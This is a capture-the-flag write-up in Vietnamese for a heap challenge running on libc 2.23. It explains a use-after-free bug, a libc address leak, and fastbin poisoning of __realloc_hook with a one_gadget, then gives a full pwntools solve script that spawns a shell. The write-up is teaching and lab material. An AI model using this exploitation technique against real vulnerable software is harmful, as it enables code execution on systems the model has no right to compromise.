









# PWN2



Đề bài cho một file `ELF` bật full các security. Mở file bằng ida xem thử chương trình có gì:



Chương trình có các lệnh cơ bản để tương tác với heap. Mình đọc quá các hàm thì thấy ở hàm `deleteHeap` có 1 bug `use after free`:



Ở đây chương trình chỉ free chunk đó nhưng lại không xóa con trỏ ở mảng `store` đi, vậy nên ta vẫn có thể xem hay thậm chí chỉnh sửa `freed chunk` 

## Exploit

- Do bài này không có hàm `win` sẵn trong binary nên ta sẽ phải leak địa chỉ `libc` để có thể gọi hàm tạo `shell`. 



Ta có thể thấy các điều kiện của `one_gadget` có vẻ khá easy. Vậy nên hướng của mình là sẽ overwrite `__malloc_hook` thành địa chỉ của hàm `realloc` và `__realloc_hook` thành địa chỉ của `one_gadget`. 

Mình sử dụng `__realloc_hook` ở đây bởi hàm `realloc` có rất nhiều lệnh `push` ở đầu. Điều đó giúp ta căn chỉnh `stack` sao cho thỏa mãn điều kiện của `one_gadget`:



- **Tại sao không overwrite `__free_hook` trong chall này cho đơn giản?**

- Bởi chall này sử dụng `libc.2.23` nên chưa có `tcache bin`. Vậy nên khi malloc, `fastbin` sẽ kiểm tra `heap chunk size` xem có hợp lệ không.



Ở bên trên của `__free_hook` trống, điều đó khiến chương trình không thể tạo ra 1 chunk ở đó. Ngược lại, `__realloc_hook` thì lại có, do `0x7f` nằm trong list size `0x70` vậy nên ta cần tạo chunk với kích thước `0x60` để có thể thỏa mãn với điều kiện kiểm tra.



Đầu tiên ta cần leak libc addr. Khi 1 chunk kích thước lớn free thì sẽ được đưa vào `Unsorted bin`, và lúc đó trong chunk sẽ chứa địa chỉ của `main area` nằm trên libc => ta sử dụng `uaf` để leak địa chỉ đó ra và tính toán `libc base` thôi 





Khi các `freed chunk` cùng kích thước ở trong `fastbin`. Thì ở trong chunk đó sẽ có địa chỉ của chunk còn lại. Vậy sau khi đã leak được địa chỉ `libc` rồi thì ta sẽ thay thế địa chỉ trong `freed chunk`. Từ đó ta có thể `malloc` được đến `target offset`. Và overwrite các giá trị ở đó.

### Solve script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./pwn2_df_patched', checksec=False)
libc = ELF('./libc.2.23.so', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b* main +35
        b* __GI___libc_realloc + 8
        c
        c
        ''')
        sleep(1)

def create_heap(idx,size,data):
    sla(">",b'1')
    slna("Index:",idx)
    slna("Input size:",size)
    sla("Input data:",data)

def show_heap(idx):
    sla(">",b'2')
    slna("Index:",idx)

def edit_heap(idx,data):
    sla(">",b'3')
    slna("Input index:",idx)
    sl(data)
def remove_heap(idx):
    sla(">",b'4')
    slna("Input index:",idx)

if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])


create_heap(0,0x60,b'hello')
create_heap(1,0x60,b'hello')
create_heap(2,0x510,b'hello')
create_heap(3,0x60,b'hello')
GDB()
remove_heap(0)
remove_heap(1)
remove_heap(2)
show_heap(2)

p.recvuntil(b"Data = ")
leak_libc = u64(p.recv(6) + b'\0\0')
libc.address = leak_libc - 0x39bb78
info(hex(leak_libc))
info(hex(libc.address))

payload = libc.sym['__realloc_hook'] -0x1b
info(hex(libc.sym['__realloc_hook']))
info(hex(payload))
info("one_gadget: "+hex((libc.address + 0xd5bf7)))

edit_heap(1,p64(payload))

create_heap(4,0x60,b'hello')
create_heap(5,0x60,b'hello')

payload = b'a'*0xb
payload += p64(libc.address + 0xd5bf7)
payload += p64(libc.sym['realloc']+8) 

edit_heap(5,payload)

sla(">",b'1')
slna("Index:",b'6')
slna("Input size:",b'30')

p.interactive()


```